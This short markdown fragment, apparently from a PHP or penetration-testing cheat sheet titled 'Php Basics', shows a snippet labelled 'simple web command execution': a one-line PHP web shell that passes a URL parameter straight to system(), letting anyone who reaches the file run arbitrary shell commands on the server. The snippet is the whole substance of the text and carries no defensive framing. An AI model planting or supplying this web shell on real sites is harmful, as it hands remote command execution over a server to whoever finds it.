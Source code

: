 # Php Basics

## simple web command execution <a id="simple-web-command-execution"></a>

```text
<?php 
  system($_GET['c']);
?>
```



